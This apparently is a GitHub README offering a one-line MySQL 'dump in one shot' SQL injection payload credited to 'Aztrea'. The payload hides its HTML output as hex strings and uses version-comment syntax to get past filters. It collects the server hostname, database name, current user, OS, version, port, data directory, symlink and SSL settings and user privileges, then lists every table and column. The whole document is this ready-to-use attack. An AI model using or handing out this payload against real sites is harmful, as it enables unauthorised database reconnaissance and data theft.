

# DIOS-by-Aztrea



### DIOS
```
/*!00000CoNcAt*/(0x3c7363726970743e646f63756d656e742e7469746c653d2244494f53204279202e3a7e415a545245417e3a2e223b3c2f7363726970743e3c6c696e6b2072656c3d227374796c6573686565742220687265663d2268747470733a2f2f6d617863646e2e626f6f74737472617063646e2e636f6d2f626f6f7473747261702f342e332e312f6373732f626f6f7473747261702e6d696e2e637373223e3c63656e7465723e203c696d67207372633d2268747470733a2f2f696d6764622e6e65742f73746f726167652f75706c6f6164732f623932646439353936633862393638376334396639373663326533386232303935653266366262373965343833346462363330663336313363643134326262322e706e672220636c6173733d226d782d6175746f20642d626c6f636b20696d672d666c75696422207469746c653d22417a747265612220616c743d22417a7472656122207374796c653d2277696474683a2032303070783b206865696768743a203230307078222f3e3c2f63656e7465723e3c683220636c6173733d22746578742d63656e74657220746578742d64616e676572223e203c623e44494f532042593c2f623e3c62722f3e3c623e2e3a7e415a545245417e3a2e3c2f623e3c2f68323e3c63656e7465723e203c736d616c6c3e203c623e446174653a20,/*!00000NOW()*/,0x3c2f623e203c2f736d616c6c3e3c2f63656e7465723e3c62723e3c64697620636c6173733d227461626c652d726573706f6e73697665223e203c7461626c6520636c6173733d227461626c65207461626c652d73747269706564207461626c652d626f726465726564207461626c652d686f766572223e203c74723e203c746820636f6c7370616e3d22322220636c6173733d22746578742d63656e7465722062672d6461726b20746578742d7768697465223e496e666f726d6174696f6e20476174686572696e673c2f74683e203c2f74723e3c74723e203c74643e486f7374204e616d653a3c2f74643e3c74643e,/*!00000@@hostname*/,0x3c2f74643e3c2f74723e3c74723e203c74643e44617461626173653a3c2f74643e3c74643e,/*!00000database*/(),0x3c2f74643e3c2f74723e3c74723e203c74643e557365723a3c2f74643e3c74643e,/*!00000current_user*/(),0x3c2f74643e3c2f74723e3c74723e203c74643e4f7065726174696f6e2073797374656d3c2f74643e3c74643e,/*!00000@@version_compile_os*/,0x3c2f74643e3c2f74723e3c74723e203c74643e56657273696f6e3a3c2f74643e3c74643e,/*!00000version*/(),0x3c2f74643e3c2f74723e3c74723e203c74643e506f72743a3c2f74643e3c74643e,/*!00000@@port*/,0x3c2f74643e3c2f74723e3c74723e203c74643e44617461204469723a3c2f74643e3c74643e,/*!00000@@datadir*/,0x3c2f74643e3c2f74723e3c74723e203c74643e53796d6c696e6b3a3c2f74643e3c74643e,/*!00000@@GLOBAL.have_symlink*/,0x3c2f74643e3c2f74723e3c74723e203c74643e53534c3a3c2f74643e3c74643e,/*!00000@@GLOBAL.have_ssl*/,0x3c2f74643e3c2f74723e3c74723e203c74643e50726976696c65676573202f20696e74726f206f757466696c6520636865636b3c2f74643e3c74643e,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),0x3c2f74643e3c2f74723e3c2f7461626c653e203c62723e3c7461626c6520636c6173733d227461626c65207461626c652d73747269706564207461626c652d626f726465726564207461626c652d686f766572223e203c74723e203c746820636f6c7370616e3d22322220636c6173733d22746578742d63656e7465722062672d6461726b20746578742d7768697465223e44554d5020444154413c2f74683e203c2f74723e3c74723e203c746820636c6173733d22746578742d63656e7465722062672d6461726b20746578742d7768697465223e5461626c65204e616d653c2f74683e203c746820636c6173733d22746578742d63656e7465722062672d6461726b20746578742d7768697465223e4669656c64204e616d653c2f74683e203c2f74723e3c74723e,(select(@x)from(select(@x:=0x00),(select(0)/*!From*/(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat (@x,0x3c74723e3c74643e,table_name,0x3c2f74643e3c74643e,column_name))))x),0x3c2f74723e3c2f7461626c653e3c2f6469763e3c63656e7465723e203c7374726f6e6720636c6173733d22746578742d64616e676572223e43726561746520427920415a545245413c2f7374726f6e673e3c2f63656e7465723e3c62723e3c212d2d)
